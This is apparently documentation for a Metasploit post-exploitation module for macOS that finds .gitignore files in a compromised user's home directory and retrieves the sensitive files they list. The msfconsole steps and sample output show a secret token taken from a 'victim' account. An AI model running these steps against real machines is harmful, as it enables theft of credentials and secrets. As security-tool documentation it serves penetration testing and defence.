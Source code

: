 ## Vulnerable Application

This module finds and retrieves gitignore files from the user's home directory,
as well as retrieves the contents of files found in the gitignore.

## Verification Steps

  1. Start msfconsole
  2. Get at least a user shell

  Locate gitignore files:
  3. Do: `use post/osx/gather/gitignore`
  4. Do: `set session #`
  5. Do: `set mode 1`
  5. Do: `run`
  6. You should see a list of all gitignore files with absolute path located recursively from the users'r home directory

  Retrieve gitignore files:
  7. Do: `set mode 2`
  8. Do: `set file /absolute/path/to/.gitignore`
  9. Do `run`
  10. You should see the contents of the gitignore file. If you see anything useful, you can also retrieve these artifacts.

  Retrieve sensitive or interesting artifacts:
  11. Do: `set file /absolute/path/to/sensitive_file`
  12. Do: `run`

## Options

  ### MODE
  Select between enumeration and retrieval mode.
  Mode 1 is enumeration of all gitignore files recursively in the user's home directory.
  Mode 2 is used for retrieving file contents should they be ASCII text.

  ### FILE
  This is the absolute file path to the .gitignore and/or sensitive file you would like to retrieve.

## Scenarios

Gitignore files commonly list items developers don't want leaked and generally contain sensitive information.

### Finding gitignore files

```
msf6 post(osx/gather/gitignore) > set mode 1
msf6 post(osx/gather/gitignore) > set session 1
msf6 post(osx/gather/gitignore) > run

[*] Fetching .gitignore files
[+] /Users/victim/Documents/project/.gitignore
[+] ...
[*] Post module execution completed
```

### Recovering contents of a specific gitignore

```
msf6 post(osx/gather/gitignore) > set file /Users/victim/project/.gitignore
msf6 post(osx/gather/gitignore) > set mode 2
msf6 post(osx/gather/gitignore) > run

[+] /Users/victim/project/.gitignore
[+] .sensitive_file
[*] Post module execution completed
```

### Recovering contents of a sentitive file

```
msf6 post(osx/gather/gitignore) > set file /Users/victim/project/.sensitive_file
msf6 post(osx/gather/gitignore) > run

[+] /Users/victim/project/.sensitive_file
[+] PWNED_APPLICATION_TOKEN=cHduZWQgdXIgZ2l0aHVi
[*] Post module execution completed
```

